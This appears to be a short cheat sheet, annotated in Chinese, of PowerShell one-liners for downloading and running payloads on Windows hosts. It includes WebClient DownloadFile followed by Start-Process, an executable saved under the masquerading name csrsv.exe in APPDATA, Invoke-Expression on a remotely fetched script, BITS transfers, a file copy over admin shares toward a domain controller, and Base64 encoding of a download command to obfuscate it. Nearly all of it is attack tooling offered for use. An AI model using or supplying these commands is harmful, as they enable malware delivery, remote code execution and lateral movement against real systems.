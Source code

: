  #### 1
	注意：内核5.2以下版本可能无效
	>powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.1.1/Client.exe','C:\1.exe'); start-process 'c:\1.exe'
	>powershell 
	>(New-Object System.Net.WebClient).DownloadFile('http://192.168.0.108/1.exe',"$env:APPDATA\csrsv.exe");Start-Process("$env:APPDATA\csrsv.exe")
 #### 2
	PS>Copy-Item '\\sub2k8.zone.com\c$\windows\1.txt' -Destination '\\dc.zone.com\c$\1.txt'
 #### 3
	>powershell ($dpl=$env:temp+'f.exe');(New-Object System.Net.WebClient).DownloadFile('http://192.168.0.108/ok.txt',$dpl);
 #### 4
	高版本
	PS>iwr -Uri http://192.168.0.106:1222/111.txt -OutFile 123.txt –UseBasicParsing
 #### 5
	C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Templates
	>Import-Module BitsTransfer
	>$path = [environment]::getfolderpath("temp")
	>Start-BitsTransfer -Source "http://192.168.0.108/ok.txt" -Destination "$path\ok.txt"
	>Invoke-Item  "$path\ok.txt"
 #### 6
  	Invoke-Expression (New-Object Net.WebClient).DownloadString("http://xxx.xx.xx.xx/test.ps1")
 #### 7 
	echo (new-object System.Net.WebClient).DownloadFile('http://192.168.1.3/tomcat.exe','C:/Users/test/cc.exe')| powershell -
 #### 8
	$Text = "(new-object System.Net.WebClient).DownloadFile('http://xxxxxxxxxx/evil.txt','evil.txt')"
	$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
	$EncodedText =[Convert]::ToBase64String($Bytes)
	$EncodedText
	解码
	$EncodedText = "dwByAGkAxxxxxxxxxxxxxxxxxxxAG0AbgB0AG4AJwA="
	$DecodedText = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($EncodedText))
	$DecodedText
